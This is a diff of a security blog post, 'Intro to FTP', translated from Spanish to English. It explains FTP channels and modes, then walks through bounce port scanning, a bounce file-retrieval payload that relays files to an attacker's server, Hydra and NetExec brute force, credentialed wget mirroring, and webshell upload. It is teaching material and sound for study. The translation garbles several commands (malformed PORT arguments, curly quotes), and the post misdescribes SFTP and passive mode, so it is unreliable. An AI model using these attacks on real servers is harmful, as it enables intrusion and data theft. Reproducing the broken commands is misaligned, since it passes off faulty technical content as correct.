

Before and after one commit to AtlanSec/Atlansec-Web, an MkDocs documentation site: the page built from docs/blog/posts/24-07-2024.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/docs/blog/posts/24-07-2024.md
+++ b/docs/blog/posts/24-07-2024.md
@@ -1,68 +1,65 @@
 ---
-title: "Intro to FTP"
-summary: "This is a brief summary of the post."
+title: “Intro to FTP”
+summary: “This is a brief summary of the post.”
 date: 2024-07-24
 tag: FTP
 ---
 
-El protocolo FTP (File Transfer Protocol) es un protocolo usado para la transferencia de archivos entre ordenadores en red, este protocolo presenta arquitectura cliente-servidor usándose un servidor para servir archivos que pueden ser accesados por N clientes. Por defecto, la información se transmite en texto plano, aunque existe una versión cifrada del mismo llamada SFTP (Secure File Transfer Protocol).
+FTP (File Transfer Protocol) is a protocol used for transferring files between computers on a network, this protocol has a client-server architecture using a server to serve files that can be accessed by N clients. By default, the information is transmitted in plain text, although there is an encrypted version of it called SFTP (Secure File Transfer Protocol).
 
 <!-- more -->
 
-Si bien existen implementaciones con interfaz gráfica, en este artículo haremos uso de la herramienta de línea de comandos de FTP, la cual nos da bastante flexibilidad a la hora de trabajar con el protocolo. En artículos posteriores exploraremos las principales implementaciones de cliente y servidor, aunque en este nos centraremos en explicar los conceptos básicos del protocolo, como trabajar con él y como aprovechar algunas malas configuraciones.
+Although there are implementations with a graphical interface, in this article we will make use of the FTP command line tool, which gives us a lot of flexibility when working with the protocol. In later articles we will explore the main client and server implementations, although in this one we will focus on explaining the basic concepts of the protocol, how to work with it and how to take advantage of some misconfigurations.
 
+## Theory
 
-## Teoria
+### Communication channels
 
-### Canales de comunicación
+For FTP to work, two communication channels are required, one for sending commands and the other for data.
 
-Para el funcionamiento de FTP se requieren de dos canales de comunicación, uno para el envío de comandos y otro para los datos.
+### Connection modes
 
-### Modos de conexión
+#### Active
 
-#### Activo
+This is the default connection mode for FTP connections, in which two events occur:
 
-Es el modo de conexión predeterminado para las conexiones FTP, en él ocurren dos eventos:
+- A command channel is established in the connection to the server between the server's command port (21 by default) and a port greater than 1023 on the client side (we will refer to this as P).
+- Once the data connection is established, an attempt is made to open a connection from the server's data port (20 by default) to port P+1 on the client.
 
-- Se establece un canal de comandos en la conexión con el servidor entre el puerto de comandos del servidor (21 por defecto) y un puerto superior a 1023 en el lado cliente (nos referiremos a este como P).
-- Una vez establecida la conexión de datos se intenta abrir una conexión desde el puerto de datos del servidor (20 por defecto) al puerto P+1 del cliente.
+!!! note
 
-!!! nota
+    Active mode may present problems with client firewalls because it attempts to create a direct connection to a client-side port, which may be blocked by certain firewalls.
 
-    El modo activo puede presentar problemas con los firewalls del cliente debido a que intenta crear una conexión directa a un puerto del lado cliente, lo cual puede ser bloqueado por ciertos firewalls.
+#### Passive
 
+This mode arises as a solution to the problem of client firewalls, here the workflow is modified so that both the data connection and the client connection are initiated from the client, we can break it down into two events.
 
-#### Pasivo
+- A command channel is established on the server connection between the server command port (21 by default) and a port greater than 1023 on the client side (we will refer to this as P).
+- Once the data connection is established a data connection is opened from port P+1 on the client to a port on the server data channel, this process is repeated for each file transfer occupying a different server port on each connection (this can be configured in most server side software) .
 
-Este modo surge como solución al problema de los firewalls del cliente, aquí se modifica el flujo de trabajo de modo que tanto la conexión de datos como la conexión del cliente se inician desde el cliente, podemos desglosarlo en dos eventos.
+!!! note
 
-- Se establece un canal de comandos en la conexión con el servidor entre el puerto de comandos del servidor (21 por defecto) y un puerto superior a 1023 en el lado cliente (nos referiremos a este como P).
-- Una vez establecida la conexión de datos se abre una conexión de datos desde el puerto P+1 del cliente a un puerto del canal de datos del servidor, este proceso se repite para cada transferencia de archivos ocupando un puerto distinto del servidor en cada conexión (esto puede ser configurado en la mayoría de los software del lado servidor) .
+    Passive mode requires the opening of a range of ports in the firewall, this can generate some security problems if this port opening is not configured correctly.
 
-!!! nota
-
-    El modo pasivo requiere de la apertura de un rango de puertos en el firewall, esto puede generar algunos problemas de seguridad si esta apertura de puertos no se configura de manera correcta.
-
-
-## Comandos FTP
+## FTP commands
 
 ```bash
-CWD  -> Cambia el directorio actual por el especificado
-DELE -> Elimina el archivo especificado
-EPRT -> Establecer un socket para la conexión de datos
-LIST -> Lista los archivos en el directorio actual
-PASV -> Cambia el modo a pasivo
-PWD  -> Muestra el directorio actual
-RETR -> Descarga el archivo especificado
+CWD -> Changes the current directory to the specified one
+DELE -> Deletes the specified file
+EPRT -> Establish a socket for data connection
+LIST -> List the files in the current directory
+PASV -> Change mode to passive mode
+PWD -> Displays the current directory
+RETR -> Download the specified file
 ```
 
 ## Anonymous login
 
-Existe una configuración de FTP que permite el uso de un login para compartir ficheros para cualquier usuario que lo requiera, en caso de que esta configuración este habilitada un usuario podría usar anonymous como nombre de inicio de sesión y cualquier contraseña acceder al servidor como un usuario con bajos privilegios, aunque en ciertos casos esto puede llevar a comprometer el sistema entero.
+There is an FTP configuration that allows the use of a login to share files for any user that requires it, in case this configuration is enabled a user could use anonymous as login name and any password to access the server as a user with low privileges, although in certain cases this can lead to compromise the entire system.
 
 ## FTP Bounce port scan
 
-Es posible abusar de los comandos PORT y ERPT para realizar un escaneo de puertos abiertos mediante un servidor FTP.
+It is possible to abuse the PORT and ERPT commands to perform an open port scan via an FTP server.
 
 ### Nmap
 
@@ -72,63 +69,63 @@ nmap -b <name>:<pass>@<ftp_server> <victim>
 
 ### Hand-made
 
-Una vez conectado podemos realizar el escaneo de puertos mediante los comandos PORT y ERPT seguidos de un comando LIST .
+Once connected we can perform the port scan using the PORT and ERPT commands followed by a LIST command.
 
-Aquí tenemos un ejemplo para escanear el puerto 9091 del host 10.10.10.14
+Here is an example for scanning port 9091 on host 10.10.10.14
 
 ```bash
-PORT 10,10,10,14,0,9091
-EPRT |2|10.10.10.14|9091|
+PORT 10.10.10.14.14.0.9091
+EPRT |2|10.10.10.14|9091||
 
 LIST
 ```
 
-Si la respuesta es un 150 el puerto está abierto, en caso de recibir un 415 el puerto está cerrado.
+If the response is a 150 the port is open, in case of receiving a 415 the port is closed.
 
 ## FTP Bounce file get
 
-Este ataque permite a un atacante descargar ficheros de un servidor FTP no accesible por el atacante, pero al que sí puede llegar un servidor FTP accesible por el atacante
+This attack allows an attacker to download files from an FTP server not accessible by the attacker, but which can be reached by an FTP server accessible by the attacker.
 
 ![Net Diagram](/assets/net_diagram.png)
 
-Este ataque tiene los siguientes prerequisitos:
+This attack has the following prerequisites:
 
-- Credenciales válidas para External FTP.
-- Credenciales válidas para Internal FTP.
-- Acceso de escritura para External FTP.
-- Permisos de ejecución del comando PORT tanto en External como en Internal.
+- Valid credentials for External FTP.
+- Valid credentials for Internal FTP.
+- Write access for External FTP.
+- PORT command execution permissions on both External and Internal.
 
-Primero que nada desplegaremos un servidor FTP en la máquina del atacante, este servidor tiene que soportar el modo pasivo.
+First of all we will deploy an FTP server on the attacker's machine, this server has to support passive mode.
 
-Una vez desplegado abriremos una conexión pasiva con el comando PASV y le diremos que la guarde con STOR output.ext .
+Once deployed we will open a passive connection with the PASV command and tell it to save it with STOR output.ext .
 
-Ahora crearemos un archivo con los comandos que queremos lanzar contra el segundo servidor, un ejemplo seria el siguiente:
+Now we will create a file with the commands we want to launch against the second server, an example would be the following:
 
 ```bash
-user ftp   # Usuario para el servidor internal
-pass password # Password para el servidor internal
+user ftp # User for the internal server
+pass password # Password for the internal server
 cwd /DIRECTORY
 type i
-port F,F,F,F,X,X  #Nuestro puerto pasivo
+port F,F,F,F,F,F,X,X #Our passive port
 retr file.ext
 quit
 ^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
 ^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
 ```
 
-Ahora lo subimos con PUT y desde el servidor externo ejecutamos los siguientes comandos:
+Now we upload it with PUT and from the external server we execute the following commands:
 
 ```bash
 put payload
-quote "port C,C,C,C,0,21" # IP del servidor interno
-quote "retr payload"
+quote “port C,C,C,C,C,0,21” # IP of internal server
+quote “retr payload”
 ```
 
-Tras esto tendremos el archivo file.ext en nuestro servidor como output.ext
+After this we will have the file.ext file on our server as output.ext
 
-## Ataque por fuerza bruta
+## Brute force attack
 
-Muchos de los servidores FTP no presentan protección contra ataques por fuerza bruta. Teniendo un usuario o una lista de ellos podemos llevar a cabo un ataque de fuerza bruta con diferentes credenciales obtenidas de diversas fuentes, si bien existen varias herramientas para este fin, las dos más comunes son NetExec e Hydra.
+Many FTP servers do not have protection against brute force attacks. Having a user or a list of them we can carry out a brute force attack with different credentials obtained from various sources, although there are several tools for this purpose, the two most common are NetExec and Hydra.
 
 ### NetExec
 
@@ -142,9 +139,9 @@ nxc ftp IP -u userfile -p passwordfile
 hydra -L userfile -P passwordfile ftp://IP
 ```
 
-## Backup sorpresa
+## Surprise backup
 
-Esto no es un ataque per se, pero es bastante útil, ya que nos permite descargar todos los archivos accesibles del servidor mediante un solo comando.
+This is not an attack per se, but it is quite useful, as it allows us to download all accessible files from the server using a single command.
 
 ```bash
 wget -r ftp://IP/dir/* --ftp-user=username --ftp-password=password
@@ -152,14 +149,14 @@ wget -r ftp://IP/dir/* --ftp-user=username --ftp-password=password
 
 ## FTP file upload to RCE
 
-En determinadas circunstancias, el permiso para subir ficheros al servidor junto a otras malas configuraciones puede llevar a la obtención de ejecución remota de comandos en el servidor.
+In certain circumstances, permission to upload files to the server along with other misconfigurations can lead to obtaining remote execution of commands on the server.
 
-El caso más común es la posibilidad de subir ficheros que van a ser luego servidos por un servidor web, donde podríamos subir una webshell interpretable por el servidor para lograr obtener ejecución de comandos.
+The most common case is the possibility of uploading files to be served by a web server, where we could upload a webshell interpretable by the server to obtain command execution.
 
 ## Sniffing credentials
 
-Dado que FTP funciona por defecto en texto plano, es posible para un atacante en la misma red usar un sniffer y capturar tanto las credenciales como la conversación FTP.
+Since FTP works by default in plain text, it is possible for an attacker on the same network to use a sniffer and capture both the credentials and the FTP conversation.
 
 ---
 
-En el próximo artículo de esta serie sobre FTP hablaremos sobre fallos comunes de implementación y algunas vulnerabilidades conocidas de algunas implementaciones del protocolo.
+In the next article of this series on FTP we will discuss common implementation errors and some known vulnerabilities of some implementations of the protocol.
````
Also changed, not shown: subidos-es/posts/24-07-2024.md (added, +165 -0 lines).
